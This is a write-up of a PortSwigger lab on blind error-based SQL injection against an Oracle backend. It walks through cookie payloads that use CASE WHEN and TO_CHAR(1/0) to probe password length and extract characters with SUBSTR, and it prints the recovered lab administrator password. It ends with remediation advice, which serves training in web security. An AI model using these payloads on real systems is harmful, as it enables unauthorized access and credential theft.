


# Lab: Blind SQL Injection with Conditional Errors

> **Platform:** PortSwigger Web Security Academy  
> **Module:** SQL Injection  
> **Lab:** Blind SQL injection with conditional errors  
> **Lab Link:** https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors  
> **Goal:** Exploit the blind SQL injection vulnerability to trigger conditional database errors, determine the password of the `administrator` user, and log in to their account.

---

## 1. Lab Goal

The goal of this lab was to exploit a blind SQL injection vulnerability in the application's tracking cookie by inducing conditional database errors (`500 Internal Server Error`) to extract the `administrator` user's password character by character, and then log in as `administrator`.

---

## 2. Given Information

The lab provided the following information:

- The application uses a tracking cookie (`TrackingId`) for analytics and performs a SQL query containing the value of the submitted cookie.
- The results of the SQL query are not returned in the HTTP response, and the application does not respond differently based on whether the query returns any rows.
- However, if the SQL query causes an error, the application returns a custom error message (`500 Internal Server Error`).
- The database contains a table called `users`, with columns named `username` and `password`.
- We need to find the password for the `administrator` user and log in to their account.

---

## 3. Vulnerability Summary

The application concatenates the user-supplied `TrackingId` cookie value directly into a backend SQL query without parameterization or sanitization. Although neither query output nor conditional UI text changes are reflected in the HTTP response, unhandled database exceptions trigger an HTTP `500 Internal Server Error`. By injecting conditional `CASE WHEN` statements into `TrackingId` that intentionally execute a divide-by-zero operation (`TO_CHAR(1/0)`) on an Oracle backend when a condition evaluates to true, an attacker turns the HTTP status code (`500` vs. `200`) into a boolean oracle to enumerate the `administrator` password length and extract every character via automation (`script.py`).

---

## 4. Observation

At first, I tested whether the URL category filter parameter was vulnerable to SQL injection by injecting an `ORDER BY` payload:

```text
Pets' ORDER BY 1 --
```



This did not work—likely because the query for this endpoint was parameterized. Next, I intercepted a request in Burp Suite and began testing the `TrackingId` cookie instead.

---

## 5. Initial Testing & Database Fingerprinting

To see how the backend handled errors inside `TrackingId`, I first sent a valid arithmetic comparison:

```text
TrackingId=lOUMQwoIcY18CppB' AND 1/1 = 2 --
```

This returned a normal response without any error. However, when I injected a division by zero:

```text
TrackingId=lOUMQwoIcY18CppB' AND 1/0 = 2 --
```

The server responded with an **Internal Server Error (`Status: 500`)**. From this, I inferred that the server returns `Status: 500` for both SQL syntax issues and runtime database errors—meaning I could trigger a `500` error selectively on a specific boolean condition.

Next, I tested a conditional `CASE WHEN` payload designed *not* to trigger an error:

```text
Cookie: TrackingId=w6ekiskjgwSg8EXi' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END) = 'a' --
```

Surprisingly, this still returned an `Internal Server Error`. Even though the syntax is valid for MySQL, throwing a `500` error on `1=2` indicated that the backend database was **Oracle**.

I modified the payload to satisfy Oracle's SQL syntax rules:

```text
Cookie: TrackingId=w6ekiskjgwSg8EXi' AND (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a
```

Three key adjustments were required for Oracle:
1. **Matching data types in `CASE`:** Oracle requires both `THEN` and `ELSE` branches to return the same data type. Because `1/0` is numeric and `'a'` is a string, I wrapped `1/0` in `TO_CHAR(1/0)`.
2. **Handling the trailing quote:** Oracle requires a space after `--` (or `#`), so removing the comment altogether and omitting the closing quote after `'a` lets the backend query's original trailing single quote close the string cleanly.
3. **Mandatory `FROM` clause:** Every `SELECT` statement in Oracle requires a `FROM` clause, so I added `FROM dual`.

With these changes, the `1=2` payload returned a valid `200 OK` response, and changing `1=2` to `1=1` triggered `Status: 500`, confirming a working conditional error oracle.

---

## 6. Exploiting the Vulnerability

First, I confirmed that the `administrator` user existed in the `users` table by checking whether the password value was `null`:

```text
Cookie: TrackingId=w6ekiskjgwSg8EXi' AND (SELECT CASE WHEN ((SELECT password FROM users WHERE username = 'administrator') = null) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a
```

This returned `200 OK`, confirming the `administrator` account was present.

Next, I verified manual character extraction using Oracle's `SUBSTR` function. Through trial and error, testing `'x'` at position `1` triggered an `Internal Server Error`:

```text
Cookie: TrackingId=w6ekiskjgwSg8EXi' AND (SELECT CASE WHEN ((SELECT SUBSTR(password,1,1) FROM users WHERE username = 'administrator') = 'x') THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a
```

Guessing from the previous lab that the password would be 20 characters long, I checked `LENGTH(password) = 20`:

```text
Cookie: TrackingId=w6ekiskjgwSg8EXi' AND (SELECT CASE WHEN ((SELECT Length(password) FROM users WHERE username = 'administrator') = 20) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a
```

This returned `Status: 500`, confirming the password length was **20 characters**.

Because extracting all 20 characters manually would be tedious, I wrote a Python automation script (`script.py`, located in the same directory) to automate the probing and extract the remaining characters.



Running the script recovered the full credentials:

```text
administrator: w4pfm5qv8pt98bwl212l
```

I logged in as `administrator` using the extracted password and solved the lab.

---

## 7. Correct Testing Approach

1. Test visible URL parameters first (e.g., `ORDER BY`), and pivot to HTTP headers/cookies (`TrackingId`) if URL inputs appear parameterized.
2. Probe how the application handles runtime errors (such as `1/0`) to confirm whether unhandled database errors surface as `500 Internal Server Error`.
3. Fingerprint the database engine using `SELECT ... FROM dual` and type-safe `CASE WHEN ... THEN TO_CHAR(1/0) ELSE 'a' END` expressions to distinguish `200 OK` (`False`) from `500 Internal Server Error` (`True`).
4. Verify the target row (`username = 'administrator'`) and enumerate `LENGTH(password)` before running character extraction.
5. Automate character extraction across positions `1` through `20` using `SUBSTR` in a Python script (`script.py`) rather than brute-forcing manually.

---

## 8. Exploitation Steps

1. Tested `Pets' ORDER BY 1 --` on the URL parameter and observed no SQL injection behavior.
2. Captured a request in Burp Suite and injected `' AND 1/1 = 2 --` (normal response) and `' AND 1/0 = 2 --` (`Status: 500`) into the `TrackingId` cookie.
3. Tested a standard `CASE WHEN` payload, received a `500` error on `1=2`, and fingerprinted the backend as Oracle.
4. Adjusted the payload for Oracle using `FROM dual`, `TO_CHAR(1/0)`, and an unclosed trailing `'a` to confirm a working boolean error oracle (`1=2` -> `200`, `1=1` -> `500`).
5. Verified the `administrator` account in the `users` table and confirmed `LENGTH(password) = 20` via a `500` response.
6. Manually confirmed the first character using `SUBSTR(password,1,1)` and then automated full extraction with `script.py`.
7. Retrieved `administrator:w4pfm5qv8pt98bwl212l` and logged in to solve the lab.

---

## 9. Evidence

### Divide-by-Zero Error Verification
```text
TrackingId=lOUMQwoIcY18CppB' AND 1/1 = 2 --
TrackingId=lOUMQwoIcY18CppB' AND 1/0 = 2 --
```

### Oracle Conditional Error Oracle Payloads
```text
Cookie: TrackingId=w6ekiskjgwSg8EXi' AND (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a
Cookie: TrackingId=w6ekiskjgwSg8EXi' AND (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a
```

### Password Length Verification Payload
```text
Cookie: TrackingId=w6ekiskjgwSg8EXi' AND (SELECT CASE WHEN ((SELECT Length(password) FROM users WHERE username = 'administrator') = 20) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a
```

### Character Extraction Payload
```text
Cookie: TrackingId=w6ekiskjgwSg8EXi' AND (SELECT CASE WHEN ((SELECT SUBSTR(password,1,1) FROM users WHERE username = 'administrator') = 'x') THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a
```

### Automation Script
- Script file: [`script.py`](script.py)
- Recovered credentials: `administrator:w4pfm5qv8pt98bwl212l`

---

## 10. Why This Worked

Even though the application neither reflects query output nor changes page content based on query results, it fails to catch runtime database exceptions and surfaces them as HTTP `500 Internal Server Error` responses. By wrapping `TO_CHAR(1/0)` inside an Oracle-compliant `SELECT CASE WHEN (...) ... FROM dual` subquery, the divide-by-zero exception is only evaluated when the `WHEN` condition is true—turning HTTP status codes (`500` = `True`, `200` = `False`) into a reliable extraction channel for `script.py`.

---

## 11. Remediation / Fix

To prevent blind SQL injection vulnerabilities, the application should:

- **Use Parameterized Queries (Prepared Statements):** Pass cookie values such as `TrackingId` as bound parameters so the database treats them strictly as literal strings rather than executable SQL syntax.
- **Implement Global Exception Handling:** Catch database errors gracefully on the backend and return generic error responses without exposing unhandled `500` error states tied to query execution.
- **Hash Stored Passwords:** Store user passwords using strong, salted cryptographic hashing algorithms (such as bcrypt or Argon2) rather than plaintext.

---

## 12. Lessons Learned

- Even when an application returns no data and no conditional UI text changes, unhandled `500 Internal Server Error` responses can serve as a boolean oracle for blind SQL injection.
- Database-specific syntax rules matter in blind error-based injection: Oracle requires `FROM dual` on standalone `SELECT` queries, strict type matching (`TO_CHAR(1/0)`) across `CASE` branches, and `SUBSTR` instead of `SUBSTRING`.
- Automating character-by-character extraction with a Python script (`script.py`) turns slow manual probing into fast, reliable credential recovery.

---

## 13. Final Summary

In this lab, I exploited a blind SQL injection vulnerability in the `TrackingId` cookie by triggering conditional errors on an Oracle backend. After confirming that divide-by-zero errors surfaced as `500 Internal Server Error` responses and adapting the `CASE WHEN` syntax for Oracle (`FROM dual` and `TO_CHAR(1/0)`), I verified the `administrator` user and its 20-character password length. Using `script.py` to automate `SUBSTR` extraction, I recovered the password (`w4pfm5qv8pt98bwl212l`), logged in as `administrator`, and solved the lab.
